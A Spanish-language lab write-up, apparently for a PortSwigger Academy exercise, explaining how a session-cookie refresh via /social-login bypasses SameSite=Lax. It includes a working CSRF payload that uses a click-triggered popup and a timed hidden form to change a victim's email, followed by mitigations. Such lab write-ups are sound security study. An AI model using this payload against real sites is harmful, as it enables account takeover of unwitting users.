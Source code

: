 En esta clase explotamos una vulnerabilidad de CSRF en combinación con la política SameSite=Lax. Aunque el navegador no envía cookies en peticiones POST cruzadas por defecto, si se logra refrescar la sesión del usuario a través de una redirección automática a /social-login, se emite una nueva cookie sin restricciones SameSite explícitas.

Sin embargo, esta redirección necesita interacción manual para evitar el bloqueo del popup. Por eso, el exploit incluye un mensaje para que el usuario haga clic, abriendo así la ventana y forzando el flujo OAuth. Una vez completado el proceso, tras una breve pausa, se lanza el ataque CSRF.

Este escenario demuestra cómo una mala implementación del control de sesiones unida a SameSite por defecto puede dejar aplicaciones vulnerables a ataques que dependen únicamente de ingeniería social y sincronización temporal.

Solucion
En este laboratorio vemos que tiene un refresh de cookies por lo cual se actualizan
un ejemplo seria que cuando nos logeamos y despues nos vamos a la pagina principal nos deslogeamos  y le damos my account en ese momento podemos ver que nos lleva a social-login
![Pasted_image_20250723225130.png](Imagenes/Pasted_image_20250723225130.png)y despues de esperar unos cuantos segundos nos lleva a otra direccion
![Pasted_image_20250723225307.png](Imagenes/Pasted_image_20250723225307.png)
Por lo cual podemos realizar un nuevo payload

(
<form method="POST" action="https://0a39008703f53aeaa37bee4e008d005b.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a39008703f53aeaa37bee4e008d005b.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
)

**Resumen del payload:**

Este _payload_ es un ataque **CSRF** que intenta cambiar el correo de una cuenta autenticada sin que el usuario lo note.

🔹 Al hacer clic en la página:

1. Se abre una nueva pestaña (posiblemente para distraer).
    
2. Después de 5 segundos, se envía automáticamente un formulario oculto que cambia el correo del usuario a `pwned@portswigger.net`.
    

🔹 Si el usuario está logueado, el servidor acepta el cambio creyendo que es legítimo.

🛡️ **Mitigación:** Usar tokens CSRF, verificar el origen de la petición y configurar cookies con `SameSite`.